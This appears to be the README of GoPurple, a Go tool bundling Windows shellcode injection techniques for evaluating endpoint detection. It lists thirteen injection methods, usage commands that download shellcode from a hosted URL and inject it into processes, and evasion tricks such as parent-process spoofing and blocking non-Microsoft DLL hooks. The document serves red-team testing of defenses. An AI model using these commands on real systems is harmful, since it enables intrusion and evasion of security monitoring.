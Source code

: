 # GoPurple

This project is a simple collection of various shell code injection techniques, aiming to streamline the process of endpoint detection evaluation, beside challenging myself to get into Golang world.




# Installation

1 - Requires [go](https://golang.org/dl/) installed on a windows machine.

2-  Build the application from the project's directory: go build gopurple.go


```
  _____                              _
  / ____|                            | |
 | |  __  ___  _ __  _   _ _ __ _ __ | | ___
 | | |_ |/ _ \| '_ \| | | | '__| '_ \| |/ _ \
 | |__| | (_) | |_) | |_| | |  | |_) | |  __/
  \_____|\___/| .__/ \__,_|_|  | .__/|_|\___|
              | |              | |
              |_|              |_|   by @s3cdev

 -a string
        Program command line arguments
  -b string
        block DLL mode (nonms/onlystore for QueueUserAPC )
  -p int
        Process ID to inject shellcode into
  -prog string
        program to inject into
  -t string
        shellcode injection technique to use:
         1: CreateFiber
         2: syscall
         3: CreatetThreadNative
         4: CreateProcess
         5: EtwpCreateEtwThread
         6: CreateRemoteThread
         7: RtlCreateUserThread
         8: CreateThread
         9: CreateRemoteThreadNative
         10: CreateProcessWithPipe
         11: QueueUserAPC
         12: CreateThreadpoolWait
         13: BananaPhone
  -u string
        URL hosting the shellcode

```




# Examples:

A shellcode needs to be generated,this can be done using tools such as [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) or [shad0w](https://github.com/bats3c/shad0w). Then the shellcode needs to be hosted to be remotely downloaded and executed on the remote machine.
For the sake of clarity, the below demos illustrate different ways of using the tool.

1 - Shellcode injection using BananaPhone method + Shad0w as the shellcode generator

![](demo1.gif)




2 - Shellcode injection using QueueUserAPC technique + Shad0w as the shellcode generator +  spoofing the parent ID (explorer as the parent ID) +  process launching by spoofed parent that contains the shellcode(calc) + protecting the process from unsigned DLL hook, so only Microsoft signed DLL can hook into the process.

![](demo2.gif)


3- Shellcode injection using CreateFiber + msfvenom as the shellcode generator

![](demo3.gif)

# How To Use:

```
1 - gopurple.exe -u urlhostingpayload -t 1 (CreateFiber)

2 - gopurple.exe -u urlhostingpayload -t 2 (Syscall)

3 - gopurple.exe -u urlhostingpayload -t 3 (CreatetThreadNative)

4 - gopurple.exe -u urlhostingpayload -t 4 (CreateProcess)

5 - gopurple.exe -u urlhostingpayload -t 5 (EtwpCreateEtwThread)

6 - gopurple.exe -u urlhostingpayload -t 6 -p tagetprocess (CreateRemoteThread)

7 - gopurple.exe -u urlhostingpayload -t 7 -p tagetprocess (RtlCreateUserThread)

8 - gopurple.exe -u urlhostingpayload -t 8 //(CreateThread)

9 - gopurple.exe -u urlhostingpayload -t 9 -p tagetprocess (CreateRemoteThreadNative)

10 - gopurple.exe -u urlhostingpayload -t 10 -prog porgram -a processargument (ex:C:\Windows\System32\WindowsPowerShell\v1.0) and processargument(ex:Get-Process)  (CreateProcessWithPipe)

11 - gopurple.exe -u urlhostingpayload -t 11 -p targetpidasparentprocess -prog programtoinjectshellcodeinto -b methodtoblockdll(nonms or onlystore)  (QueueUserAPC)

nonms = only DLLs that are signed by Microsoft can hook into the process

onlystore = only Microsoft store application's process can hook into the process  

12 -  gopurple.exe -u urlhostingpayload -t 12 (CreateThreadpoolWait)
 
13 - gopurple.exe -u urlhostingpayload -t 13 (BananaPhone)
```


# Acknowledgments:

All the credits go to following guys for their awesome researches,tools and inspiration: 

* [ne0nd0g](https://twitter.com/ne0nd0g): Most of the codes and techniques

* [spotheplanet](https://twitter.com/spotheplanet): The [blogpost](https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait) inspired me to convert the method to Golang

* [_d00mfist](https://twitter.com/_d00mfist): Great implementation of QueueUserAPC technique in Golang 

* [c__sto](https://twitter.com/c__sto): Amazing BananPhone technique 

* [_batsec_](https://twitter.com/_batsec_): The great shad0w

* [chiragsavla94](https://twitter.com/chiragsavla94): Inspired from [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection)


# References

(https://github.com/Ne0nd0g/go-shellcode)

(https://www.ired.team/)

(https://github.com/D00MFist/Go4aRun)

(https://posts.specterops.io/going-4-a-run-eb263838b944)

(https://github.com/C-Sto/BananaPhone)

(https://blog.xpnsec.com/protecting-your-malware)

(https://github.com/3xpl01tc0d3r/ProcessInjection)


# Future Plans

* Shellcode Encryption
* More structured code


# Legal Disclaimer
This project is made for educational and ethical testing purposes only.Usage of GoPurple for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developer assume no liability and are not responsible for any misuse or damage caused by this program






